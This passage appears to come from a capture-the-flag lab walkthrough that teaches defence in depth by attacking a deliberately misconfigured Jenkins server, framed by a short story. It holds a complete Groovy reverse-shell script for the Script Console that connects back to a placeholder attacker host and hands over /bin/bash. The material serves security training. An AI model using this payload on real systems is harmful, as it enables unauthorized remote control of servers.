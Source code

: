 **Defense in Depth**

With the chaos of the recent merger, the company's security landscape has turned into the Wild West. Servers and endpoints, once considered fortresses, now resemble neglected outposts on the frontier, vulnerable to any attacker.

As McHoneyBell sifts through the reports, a sense of urgency gnaws at her. "This is a ticking time bomb," she mutters to herself. It's clear they need a strategy, and fast.

Determined, McHoneyBell rises from her chair, her mind racing with possibilities. "Time to suit up, team. We're going deep!" she declares, her tone a blend of resolve and excitement. "Defence in Depth isn't just a strategy; it's our lifeline. We're going to fortify every layer, from the physical servers in the basement to the cloud floating above us. Every byte, every bit."

In this task, we will be hopping into McHoneyBell's shoes and exploring how the defence in depth strategy can help strengthen the environment's overall security posture.

**Learning Objectives**

- Defence in Depth
- Basic Endpoint Hardening
- Simple Boot2Root Methodology

**Guided Walkthrough of the Attack Chain**

As discussed earlier, we're dealing with a server that is vulnerable by design. It contains misconfigurations and has been implemented with poor or simply nonexistent security practices. This part of the task will walk you through one of the many ways we can get elevated privileges on the server.

Skipping the enumeration part, we can access Jenkins via Firefox on its default port: http://10.10.82.100:8080. You should be greeted by a page that looks something like this:

![jenkins](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/c79110ce-ec6d-4c08-a006-2ee3ff7d1fc2)

**Getting a Web Shell**

We instantly gain access to the general workings of Jenkins. Explore the features that we can play with, and you'll see that there's a way to Execute arbitrary scripts for administration/troubleshooting/diagnostics on the machine. On checking this further, you'll see this can be used to spawn a web shell.

Click on the Manage Jenkins button on the left side of the page. Scroll to the bottom, and you'll see the option we want: Script Console.

Script Console is a feature that accepts Groovy, a type of programming language for the Java platform. Let's jump straight in and try to establish a reverse shell using this feature! The example below is using an edited version of this script.

```
String host="attacking machine IP here";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
